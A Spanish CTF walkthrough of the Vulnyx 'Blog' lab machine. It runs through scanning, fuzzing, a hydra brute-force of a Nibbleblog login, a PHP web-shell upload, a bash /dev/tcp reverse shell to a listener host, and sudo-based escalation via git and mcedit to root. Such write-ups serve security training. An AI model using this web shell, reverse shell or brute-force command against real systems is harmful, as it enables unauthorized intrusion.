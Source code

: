 ```yaml
---
layout: post
title: "Blog"
date: 2024-04-22 11:55:23
category: sample
vm: vulnyx
---
```


<style>
  .post-content {
    color: #51c25be1; /* Cambia el color del texto */
  }
</style>

<table class="log">
  <tr>
    <td rowspan="5"><img src="/notas/public/img/vulnyx/vulnyx.png" width=252></td>
    <td></td>
  </tr>
  <tr> <td><strong>Máquina:</strong> Blog </td> </tr>
  <tr> <td><strong>SO:</strong> Linux</td> </tr>
  <tr> <td><strong>Dificultad:</strong> <span class="easy">Easy</span></td> </tr>
  <tr> <td><strong>Link OVA:</strong><a href="https://vulnyx.com/#blog"> Vulnyx</a></td> </tr>
</table>

<br>

![img](/notas/public/img/vulnyx/blog/host.png){:.margin}

**1\.** Vemos los dispositivos en nuestra red.

`sudo arp-scan -I enp2s0 --localnet`

![img](/notas/public/img/vulnyx/blog/arp_scan.png){:.margin}

**2\.** Escaneamos puertos abiertos y versión de servicios que corren.

`sudo nmap -p- -sS -T5 -sC -sV --min-rate=5000 --open -n -Pn 192.168.1.10 -oN report_scan`

![img](/notas/public/img/vulnyx/blog/nmap.png){:.margin}

**3\.** Ojeamos el servicio web de apache, vemos al parecer la salida de un comando.

`htt://192.168.1.10/`

![img](/notas/public/img/vulnyx/blog/80.png){:.margin}

**4\.** Hacemos fuzzing de archivos y directorios.
 
 `gobuster dir -u http://192.168.1.10/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster.png){:.margin}

**5\.** Vamos a la nueva ruta, tenemos una página.

`http://192.168.1.10/my_weblog/`

![img](/notas/public/img/vulnyx/blog/my_weblog.png){:.margin}

**6\.** Presionamos `ctrl+u` para ver el código fuente, podemos ver que está a base de Nibbleblog.

![img](/notas/public/img/vulnyx/blog/ctrl_u.png){:.margin}

**7\.** Otra alternativa para ver la estructura de la web.

`whatweb http://192.168.1.10/my:weblog/`

![img](/notas/public/img/vulnyx/blog/whatweb.png){:.margin}

**8\.** Seguimos fuzzeando ahora en la ruta my_weblog.

`gobuster dir -u http://192.168.1.10/my_weblog/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -x html,php,txt`

![img](/notas/public/img/vulnyx/blog/gobuster_weblog.png){:.margin}

**9\.** Accedemos a admin.php , tenemos un panel login.

`http://192.168.1.10/my_weblog/admin.php`

![img](/notas/public/img/vulnyx/blog/login.png){:.margin}

**10\.** En nibbleblog tenemos una ruta de usuarios.

`http://192.168.1.10/my_weblog/content/private/ users.xml`

![img](/notas/public/img/vulnyx/blog/users.png){:.margin}

**11\.** Presionamos f12, revisemos como se tramita el login.

![img](/notas/public/img/vulnyx/blog/headers.png){:.margin}

![img](/notas/public/img/vulnyx/blog/payload.png){:.margin}

**12\.** Hacemos bruteforce al panel login teniendo el usuario.

`hydra -t 64 -l admin -P /usr/share/wordlists/rockyou.txt 192.168.1.10 http-post-form "/my_weblog /admin.php: username=^USER^&password=^PASS^:Incorrect" -F -I`

![img](/notas/public/img/vulnyx/blog/hydra.png){:.margin}

**13\.** Creamos un archivo para subirlo y ejecutar comandos en la url.

`nano shell.php`

`<?php system($_GET["cmd"]);?>`

![img](/notas/public/img/vulnyx/blog/shell.png){:.margin}

_\- Subimos el archivo._

![img](/notas/public/img/vulnyx/blog/upload.png){:.margin}

**14\.** Si buscamos un exploit para nibbleblog encontramos la [ruta](https://www.exploit-db.com/exploits/38489) donde indica como encontrar nuestro archivo.

![img](/notas/public/img/vulnyx/blog/path.png){:.margin}

**15\.** Nos ponemos en escucha.

![img](/notas/public/img/vulnyx/blog/nc.png){:.margin}

**16\.** Enviamos la reverse_shell al nc.

`http://192.168.1.10/my_weblog/content/ private/plugins/ my_image/image.php?cmd= bash -c "bash -i>%26/dev/tcp/192.168.1.9/443 0>%261"`

_\- Aquí obtenemos la sessión._

![img](/notas/public/img/vulnyx/blog/reverse_shell.png){:.margin}

_\- Obtenemos la conexión._

![img](/notas/public/img/vulnyx/blog/connected.png){:.margin}

**17\.** Hacemos tratamiento de la tty.

`script /dev/null -c bash`

`ctrl+z`

`stty raw -echo; fg`

`reset xterm`

`export SHELL=/bin/bash`

`export TERM=xterm`

![img](/notas/public/img/vulnyx/blog/stty.png){:.margin}

![img](/notas/public/img/vulnyx/blog/stty2.png){:.margin}

**18\.** Revisamos permisos sudo, podemos ejecutar git como admin.

![img](/notas/public/img/vulnyx/blog/sudo_l_admin.png){:.margin}

**19\.** Ganamos acceso como usuario admin.

_\- Buscamos en [GTFobins](https://gtfobins.github.io/#git) como escalar:_

`sudo -u admin git -p help config`

`!/bin/bash`

![img](/notas/public/img/vulnyx/blog/git.png){:.margin}

**20\.** Volvemos a revisar permisos sudo, podemos ejecutar un binario como root.

`sudo -l`

![img](/notas/public/img/vulnyx/blog/sudo_l_root.png){:.margin}

**21\.** Ganamos acceso como usuario root y leemos la flag.

`sudo -u root mcedit`

`F9 -> enter`

`F11 -> enter`  ... _F9 -> U -> enter (alternativo)_

`s -> enter`

![img](/notas/public/img/vulnyx/blog/mcedit.png){:.margin}

![img](/notas/public/img/vulnyx/blog/mcedit2.png){:.margin}

![img](/notas/public/img/vulnyx/blog/flag.png){:.margin}

<br>

<span class="finish">_Finalizado._</span>